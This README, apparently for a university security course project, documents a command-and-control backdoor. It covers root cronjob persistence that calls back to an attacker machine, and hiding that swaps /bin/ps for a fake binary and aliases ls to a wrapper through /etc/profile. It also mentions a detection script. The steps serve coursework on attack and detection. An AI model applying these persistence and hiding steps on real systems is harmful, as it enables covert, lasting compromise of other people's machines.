 # C S 378 - Command and Control Project (Donald and Vincent)

Currently implements:
* Remote shell access (However, commands don't persist across different calls)
* Authentification (symmetric key encryption)
* Persistence (cronjob that activates every reboot)

## Set Up

### Configure IP (IMPORTANT)

Edit the IP addresses in the **_config.py_** file to match the IP address of the attacker and target machine. Can also set which port number the attacker machine will use to listen.

### Creating executables

To create the attacker and backdoor executable things, run the make file. One file named 'attacker'
and another file named 'backdoor' should be created.

### Setting Up and Running Backdoor 

#### Installing necessary packages (on week 4)

Run the following commands:

sed -i 's/mirrorlist/#mirrorlist/g' /etc/yum.repos.d/CentOS-*

sed -i 's|#baseurl=http://mirror.centos.org|baseurl=http://vault.centos.org|g' /etc/yum.repos.d/CentOS-*

sudo yum install -y python3

python3 -m pip install pexpect

python3 -m pip install -U pip setuptools

python3 -m pip install cryptography

#### Creating reboot cronjob 

Place the 'backdoor' executable in the /bin directory of the target machine.

Run **_chmod 755 backdoor_** to give execute permissions.

Run the command **_sudo crontab -e_**

Scroll to the bottom (after all #) and add the line: **_@reboot python3 /bin/backdoor &_**

Reboot the system (**_sudo reboot_**), cronjob should run every restart. Backdoor should call out
to attacker machine every 10 seconds (can edit this amount of time in **_config.py_**).

### Setting Up and Running Attacker

Place the 'attacker' executable on the attack machine.

Run **_chmod +x attacker_** to give execute permissions.

Run **_./attacker_** in the command line to run the file and wait for the connection to be initiated by the target machine.

Once connection is made, we should be running as the root user and are in root's directory (at least when testing on Kali machine as target)

### Evading Detection

#### ls

In the evasion_and_detection folder, there is an **_ls_custom_** file. Take that and put it into the target machine at **_/usr/bin/ls_custom__**.

Give **_ls_custom_** executing privileges by running: **_chmod 755 /usr/bin/ls_custom_**

Run **_echo "alias ls='/usr/bin/ls_custom'" >> /etc/profile_** followed by **_source /etc/profile_** to reload the shell and apply these changes. The **_source_** call isn't necessary as the next time there is a login to the shell, the updated code will run. This just allows you to test the code without having to log out and back in. 

Now, whenever **_ls_** is run, the wrapper should run instead of the original binary.

#### ps

Place the ***fake_ps*** file found in the evasion_and_detection folder into the **_/bin_** directory of the target machine

Create a directory named **_orig_** in the **_/bin_** directory. 

Place the original **_ps_** file from the **_/bin_** directory into the **_/bin/orig_** directory.

Rename the ***fake_ps*** file to **_ps_**

### BONUS: Detection Script

In the evasion_and_detection folder, there is an **_detect.py_** file. To run it, put it into the target machine and execute it using the following command: **_python3 detect.py_**.

There is a customization option within the python file, which is what files to look in when searching for aliases. We've included several start-up files to search within, one of which actually contains the alias we used to execute the ls wrapper. However, the list of files can easily be modified to better suit your needs.

## Still Need to Work On:

* Evading detection
* Write-up
* Need to fix the prompt format being sent over
* Maybe figure out how to fix remote shell (or maybe ask Dr. Hintz if what we have is okay)
* Detection script (extra credit, but maybe not that hard?)
* Sometimes connection breaks in certain situations, fix these bugs
  * like when running **_cat /bin/ls_** Looks like something is wrong with trying to encode/decode the characters in the file

